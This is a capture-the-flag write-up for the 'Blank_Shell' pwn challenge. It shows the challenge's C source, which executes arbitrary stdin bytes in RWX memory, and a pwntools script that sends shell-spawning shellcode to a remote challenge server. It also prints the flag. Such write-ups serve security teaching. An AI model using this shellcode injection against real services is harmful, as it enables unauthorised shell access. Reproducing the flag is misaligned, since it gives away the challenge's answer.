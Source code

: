 # Blank_Shell

**Description**:  
We meet atlast, Agent 007! I present to you the blank shell of the Egyptian Sarcophagus. Whatever you give it will be presented back to you by this special Sarcophagus. Remember, the shell maybe empty but in lies treasures untold. To your imminent victory!


**Author:  [Ath3n1x](https://twitter.com/Ath3n1x)**


**Solution**: 
First lets check the permissions with `checksec`:
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Except for canary, everything else is enabled. 

Now lets run the program and take a look at its source. 
```
int main(int argc, char **argv) { 
    int* addr = mmap(0, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
    read(0, addr, 100);
    
    void (*shellcode)() = (void (*)()) addr;
    shellcode();
}
```

Here you can see that the program is using the `mmap` system call to allocate a memory region and then reads data into this allocated memory from the standard input (stdin) before attempting to execute it as a function.
`shellcode();` calls the function pointed to by shellcode. Since this function pointer is set to the memory region where data was read from standard input, it attempts to execute that data as if it were a function.

So in short, it creates an executable region in memory and then takes in any arbitary shellcode that the user gives and executes it.

Therefore if we provide a shellcode that can spawn a shell then its imminent victory!

**Exploit**:
```python
from pwn import *

p = remote("13.234.11.113", 30125)

context.arch = "amd64"

p.sendline(asm(shellcraft.sh()))

p.interactive()
```


**Flag: `shaktictf{sh3llc0d1ng_15_4_p13c3_0f_c4k3_9270138712038}`**            
